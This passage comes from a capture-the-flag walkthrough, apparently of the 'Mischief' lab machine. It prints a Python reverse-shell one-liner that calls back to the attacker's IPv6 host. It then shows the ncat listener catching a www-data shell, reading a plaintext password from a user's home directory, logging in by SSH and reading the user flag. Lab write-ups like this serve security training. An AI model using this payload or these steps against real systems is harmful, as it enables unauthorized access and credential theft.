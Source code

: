 Then, give some modification for the given python payload and execute.
#### python payload used:
{% highlight shell %}
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100b",443,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");';
{% endhighlight %}

Now, we got a reverse shell as user "www-data".
{% highlight shell %}
root@kali:~# ncat -6 -lv dead:beef:2::100b 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on dead:beef:2::100b:443
Ncat: Connection from dead:beef::250:56ff:feb9:c793.
Ncat: Connection from dead:beef::250:56ff:feb9:c793:59574.
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
{% endhighlight %}

Then, try to look at the home directory of only one user "loki".<br>
We can find a possible password "lokiisthebestnorsegod".
{% highlight shell %}
$ pwd
pwd
/home/loki

$ cat credentials
cat credentials
pass: lokiisthebestnorsegod

$
{% endhighlight %}

Since we have ssh running on the target, we can login as "loki" with the above password.
{% highlight shell %}
loki:lokiisthebestnorsegod
{% endhighlight %}
{% highlight shell %}
root@kali:~# ssh loki@10.10.10.92
loki@10.10.10.92's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

---

Last login: Sat Jul 14 12:44:04 2018 from 10.10.14.4
loki@Mischief:~$ id
uid=1000(loki) gid=1004(loki) groups=1004(loki)

loki@Mischief:~
{% endhighlight %}

user.txt is in the directory of "/home/loki".
{% highlight shell%}
loki@Mischief:~$ cat user.txt 
bf58078e7b802c5f32b545eea7c90060

loki@Mischief:~$
{% endhighlight %}
